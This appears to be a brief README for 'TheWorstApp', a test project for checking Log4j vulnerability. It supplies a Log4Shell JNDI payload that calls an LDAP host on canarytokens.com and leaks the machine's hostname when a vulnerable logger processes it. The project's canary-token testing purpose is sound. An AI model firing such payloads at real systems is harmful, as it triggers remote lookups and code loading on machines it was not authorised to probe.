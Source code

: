 "# TheWorstApp" 

To test simply set your argument in your IDE (or via command line) to something like: 

"${jndi:ldap://x${hostname}.L4J.ltmnsdl5tf7w012r1p6rnp1zv.canarytokens.com/a} He's not the messiah he's a very naughty boy!"